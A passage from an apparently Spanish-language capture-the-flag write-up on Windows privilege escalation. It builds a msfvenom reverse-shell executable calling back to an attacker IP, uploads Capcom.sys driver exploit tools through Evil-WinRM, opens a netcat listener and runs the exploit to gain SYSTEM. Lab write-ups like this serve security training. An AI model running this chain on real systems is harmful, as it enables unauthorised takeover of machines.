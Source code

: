 ````bash

Creamos el reverse.exe con msfvenom

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.8 LPORT=443 -f exe -o reverse.exe
```

Desde la consola Evil-WinRM de la maquina victima, subimos todo los ficheros

```bash
cd C:\Windows\Temp
upload Capcom.sys
upload ExploitCapcom.exe
upload LoadDriver.exe
cd C:\Windows\System32\spool\drivers\color
upload reverse.exe
```

#### Lanzamos el exploit {-}

En la maquina de atacante nos ponemos en escucha en el puerto 443

```bash
rlwrap nc -nlvp 443
```

En la maquina victima, lanzamos el exploit

```bash
cd C:\Windows\Temp
C:\Windows\Temp\LoadDriver.exe System\CurrentControlSet\savishell C:\Windows\Temp\Capcom.sys
C:\Windows\Temp\ExploitCapcom.exe
```

La reverse shell nos a funccionado y con 
```bash
 whoami 
```
 vemos que ya somos nt authority\system y podemos ver la flag.
